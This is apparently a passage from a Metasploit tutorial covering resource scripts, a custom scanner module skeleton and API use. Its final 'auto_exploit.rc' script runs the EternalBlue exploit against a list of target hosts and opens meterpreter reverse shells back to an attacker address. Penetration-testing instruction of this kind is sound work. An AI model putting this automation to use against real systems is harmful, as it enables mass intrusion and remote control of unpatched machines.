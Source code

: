 ### Using Resource Scripts:
Create a file called `report.rc` with:
```
spool /path/to/logfile.txt
<commands to run>
spool off
```

Run with:
```
resource /path/to/report.rc
```

## Advanced MetaSploit Usage

### Creating Custom Modules:
Modules are located in `/usr/share/metasploit-framework/modules/`

Basic module structure:
```ruby
require 'msf/core'
class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::TCP
  
  def initialize(info = {})
    super(update_info(info,
      'Name'        => 'My Custom Scanner',
      'Description' => 'Scans for something specific',
      'Author'      => 'Your Name',
      'License'     => MSF_LICENSE
    ))
    register_options([
      OptString.new('RHOSTS', [true, 'Target hosts', '']),
      OptInt.new('RPORT', [true, 'Target port', 80])
    ])
  end
  
  def run
    # Your code here
  end
end
```

### Using the Metasploit API:
```ruby
require 'msf/core'
framework = Msf::Simple::Framework.create
exploit = framework.exploits.create('windows/smb/ms17_010_eternalblue')
```

### Automation with Resource Scripts:
Create a file called `auto_exploit.rc`:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS file:/path/to/targets.txt
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
exploit -j
```
